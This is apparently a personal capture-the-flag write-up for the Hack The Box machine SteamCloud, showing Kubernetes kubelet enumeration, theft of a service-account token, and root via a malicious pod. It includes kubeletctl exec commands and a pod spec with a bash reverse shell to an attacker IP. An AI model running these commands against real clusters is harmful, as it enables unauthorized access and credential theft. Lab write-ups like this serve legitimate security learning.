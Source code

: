 ### writeup
https://0xdf.gitlab.io/2022/02/14/htb-steamcloud.html#kubelet-api---tcp-10250

### Enum
##### The kubelet agent listens on tcp 10250
```bash
❯ kubeletctl pods -s $IP
┌─────────────────────────────────────────────────────────────────────────────────┐
│                                Pods from Kubelet                                │
├────┬────────────────────────────────────┬─────────────┬─────────────────────────┤
│    │ POD                                │ NAMESPACE   │ CONTAINERS              │
├────┼────────────────────────────────────┼─────────────┼─────────────────────────┤
├────┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│  9 │ nginx                              │ default     │ nginx                   │
│    │                                    │             │                         │
├────┼────────────────────────────────────┼─────────────┼─────────────────────────┤

❯ kubeletctl runningpods -s $IP | jq -c '.items[].metadata | [.name, .namespace]'
["baturu11","default"]
["storage-provisioner","kube-system"]
["kube-scheduler-steamcloud","kube-system"]
["kube-controller-manager-steamcloud","kube-system"]
["nginx","default"]
```

### Shell
```bash
❯ kubeletctl -s $IP exec "/bin/bash" -p nginx -c nginx
root@nginx:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

### Token and Cert
HackTricks shows the location of the ServiceAccount object, which is managed by Kubernets and provides identity within the pod. It gives three typical directories:
 
* `/run/secrets/kubernetes.io/serviceaccount`
* `/var/run/secrets/kubernetes.io/serviceaccount`
* `/secrets/kubernetes.io/serviceaccout`

### get pods
```bash
kubectl get pods --all-namespaces --token $(cat token) --server https://$IP:8443 --certificate-authority ca.crt
```

Not working due to
```txt
    -A, --all-namespaces=false:
        If present, list the requested object(s) across all namespaces. Namespace in current context is ignored even
        if specified with --namespace.
        ```

```bash
❯ kubectl get pods --token $(cat token) --server https://$IP:8443 --certificate-authority ca.crt
NAME    READY   STATUS    RESTARTS   AGE
nginx   1/1     Running   0          113m
```

`get pod` returns information about the running pod!

### get namespaces
```bash
kubectl get namespaces --token $(cat token) --server https://$IP:8443 --certificate-authority ca.crt

Error from server (Forbidden): namespaces is forbidden: User "system:serviceaccount:default:default" cannot list resource "namespaces" in API group "" at the cluster scope
```

failed, so get the details of the current context(nginx container) via `-o`

```bash
kubectl get pod nginx -o yaml --token $(cat token) --server https://$IP:8443 --certificate-authority ca.crt > nginx.yaml
```

### can-i
```bash
❯ kubectl auth can-i --list --token $(cat token) --server https://$IP:8443 --certificate-authority ca.crt
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
pods                                            []                                    []               [get create list]
                                                [/.well-known/openid-configuration]   []               [get]
```

### Root
* https://github.com/A1vinSmith/Cloud-Hacking/tree/main/HackTheBox/Unobtainium#malicious-pod-with-two-alternative-yamls

###### Shell via launch Pod `get pod`
```bash
kubectl apply -f root2.yaml --token $(cat token) --server https://$IP:8443 --certificate-authority ca.crt

kubectl --token $(cat token) --server https://$IP:8443 --certificate-authority ca.crt get pod baturu18 -n default
```
For some reason I can't make it work. I figured it out eventually, lol.

```yaml
    command: ["/bin/sh"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.16.12/80 0>&1"]
    ```
    When I'm copying from Unobtainium, the command left as `/bin/sh` but my payload was `/bin/bash`. It worked well after I make them the same.

##### Exec Por `exex`
```bash
baturu01 created
❯ kubectl get pods --token $(cat token) --server https://$IP:8443 --certificate-authority ca.crt
NAME       READY   STATUS             RESTARTS        AGE
baturu01   1/1     Running            0               8s
baturu11   0/1     CrashLoopBackOff   8 (3m31s ago)   19m
baturu12   0/1     CrashLoopBackOff   8 (64s ago)     17m
baturu13   0/1     CrashLoopBackOff   7 (4m25s ago)   15m
baturu14   0/1     CrashLoopBackOff   7 (2m29s ago)   13m
baturu15   0/1     CrashLoopBackOff   6 (5m12s ago)   10m
baturu16   0/1     CrashLoopBackOff   5 (2m15s ago)   5m16s
baturu17   0/1     CrashLoopBackOff   5 (26s ago)     3m32s
nginx      1/1     Running            0               3h21m
❯ kubectl  --token $(cat token) --server https://$IP:8443 --certificate-authority ca.crt
❯ kubeletctl -s $IP exec "/bin/bash" -p baturu01 -c baturu01
root@steamcloud:/# id
uid=0(root) gid=0(root) groups=0(root)
```